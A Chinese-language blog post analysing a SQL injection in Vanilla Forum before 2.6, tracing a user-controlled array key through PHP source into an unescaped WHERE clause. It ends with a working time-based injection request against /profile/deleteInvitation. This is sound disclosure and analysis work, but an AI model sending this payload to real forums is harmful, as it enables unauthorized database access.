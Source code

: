 ```yaml
---
layout: post
title: Vanilla SQL Injection Vulnerability
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - Balis0ng</p>

## 简介

&nbsp;&nbsp;&nbsp;Vanilla是国外的一个论坛程序，是一款开源的PHP程序。github地址为:https://github.com/vanilla/vanilla 在Vanilla Forum 2.6之前，存在一个SQL注入漏洞，攻击者只需要注册登录一个会员即可利用该漏洞。

## 漏洞分析

首先在applications/dashboard/controllers/class.profilecontroller.php:274

{% highlight javascript %}

public function deleteInvitation($invitationID) {
        $this->permission('Garden.SignIn.Allow');

        if (!$this->Form->authenticatedPostBack()) {
            throw forbiddenException('GET');
        }

        $invitationModel = new InvitationModel();
        $invitationModel->delete($invitationID);
        $this->informMessage(t('The invitation was removed successfully.'));
        $this->jsonTarget(".js-invitation[data-id=\"{$invitationID}\"]", '', 'SlideUp');

        $this->render('Blank', 'Utility');
    }
{% endhighlight %}

这个函数有个形参$invitationID，这个值其实是我们通过URL传递进来的，是我们可控的，并且这里需要注意的是，该值是可以为一个数组。

首先该函数第一行判断了权限，需要登录。

第二行是一个csrf token的判断，利用这个漏洞不能直接发POST包。

然后下面就到了关键的地方，可以看到这里将$invitationID带入到了delete函数中，我们跟踪一下该函数。

applications/dashboard/models/class.invitationmodel.php:225

{% highlight javascript %}

public function delete($where = [], $options = []) {
    if (is_numeric($where)) {
        deprecated('InvitationModel->delete(int)', 'InvitationModel->deleteID(int)');
        $result = $this->deleteID($where, $options);
        return $result;
    }
    parent::delete($where, $options);
}
{% endhighlight %}

&nbsp;&nbsp;&nbsp;这里的参数$where就是我们上文的$invitationID，是可控的，然后这里又将$where带入到了另外一个delete函数中，继续追踪。

{% highlight javascript %}

public function delete($where = [], $options = []) {
    if (is_numeric($where)) {
        deprecated('Gdn_Model->delete(int)', 'Gdn_Model->deleteID()');
        $where = [$this->PrimaryKey => $where];
    }

    $resetData = false;
    if ($options === true || val('reset', $options)) {
        deprecated('Gdn_Model->delete() with reset true');
        $resetData = true;
    } elseif (is_numeric($options)) {
        deprecated('The $limit parameter is deprecated in Gdn_Model->delete(). Use the limit option.');
        $limit = $options;
    } else {
        $options += ['rest' => true, 'limit' => null];
        $limit = $options['limit'];
    }

    if ($resetData) {
        $result = $this->SQL->delete($this->Name, $where, $limit);
    } else {
        $result = $this->SQL->noReset()->delete($this->Name, $where, $limit);
    }
    return $result;
}
{% endhighlight %}

然后该函数中又将$where带入到了$this->SQL->noReset()->delete函数中，继续追踪。

library/database/class.sqldriver.php:333

{% highlight javascript %}

public function delete($table = '', $where = '', $limit = false) {
	if ($table == '') {
	    if (!isset($this->_Froms[0])) {
	        return false;
	    }

	    $table = $this->_Froms[0];
	} elseif (is_array($table)) {
	    foreach ($table as $t) {
	        $this->delete($t, $where, $limit, false);
	    }
	    return;
	} else {
	    $table = $this->escapeIdentifier($this->Database->DatabasePrefix.$table);
	}

	if ($where != '') {
	    $this->where($where);
	}

	if ($limit !== false) {
	    $this->limit($limit);
	}

	if (count($this->_Wheres) == 0) {
	    return false;
	}

	$sql = $this->getDelete($table, $this->_Wheres, $this->_Limit);

	return $this->query($sql, 'delete');
	}
{% endhighlight %}

&nbsp;&nbsp;&nbsp;该函数中对我们传递进来的$where有个判断和操作，如果不为空，就带入到where函数中去，跟踪一下该函数。

{% highlight javascript %}

public function where($field, $value = null, $escapeFieldSql = true, $escapeValueSql = true) {
    if (!is_array($field)) {
        $field = [$field => $value];
    }

    foreach ($field as $subField => $subValue) {
        if (is_array($subValue)) {
            if (count($subValue) == 1) {
                $firstVal = reset($subValue);
                $this->where($subField, $firstVal);
            } else {
                $this->whereIn($subField, $subValue);
            }
        } else {
            $whereExpr = $this->conditionExpr($subField, $subValue, $escapeFieldSql, $escapeValueSql);
            if (strlen($whereExpr) > 0) {
                $this->_where($whereExpr);
            }
        }
    }
    return $this;
}
{% endhighlight %}

&nbsp;&nbsp;&nbsp;这里其实就是一个组装where语句的函数，由于$where我们可控制，导致这里组装后的where语句的字段处也可以控制，所以就产生了一个SQL注入漏洞。

## 漏洞证明

&nbsp;&nbsp;&nbsp;该漏洞利用需要用户登陆，因为是论坛，所以注册登录不是什么难事。
开头提了一下，由于有CSRF TOKEN的校验，所以不能直接发POST包，但是我们可以随便点击论坛一个正常的POST请求，然后用Burpsuite来改即可。
这里我使用的是延时注入，用的是benchmark函数。不同环境的延时时间也不一样的。
附上POC:

{% highlight javascript %}

POST /profile/deleteInvitation?invitationID[1%3dbenchmark(40000000,sha(1))+and+1]=balisong HTTP/1.1
Host: localhost
Content-Length: 29
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://localhost
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://localhost/profile/
Accept-Language: zh-CN,zh;q=0.9
Cookie: Drupal.toolbar.collapsed=0; hd_sid=udVsUw; XDEBUG_SESSION=PHPSTORM; Vanilla=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1MjkyMDE2NTAsImlhdCI6MTUyNjYwOTY1MCwic3ViIjo3fQ.of1gk2CHyzeomQNSMWz_8WXXi_FfCwKxyctVWZlemKI; Vanilla-Vv=1526609650; Vanilla-tk=caEyM0dSVZC0xDhU%3A7%3A1526609650%3Ab23a6efff2dd9f026ffa87db10ba4119
Connection: close

TransientKey=caEyM0dSVZC0xDhU
{% endhighlight %}

然后这里延时了9秒。如图所示:

<img src="https://i.loli.net/2018/11/30/5c01538e4cdf6.jpg">

## 结语

&nbsp;&nbsp;&nbsp;其实这种漏洞很常见，很多程序在处理SQL语句的时候，都采用的这种写法，当然这种写法是没错的。主要还是因为开发人员太信任外部的输入了。

该程序在该版本相同类型的漏洞还有一个，大家有兴趣的话可以自己找一找。(当然我已经提交给厂商啦。)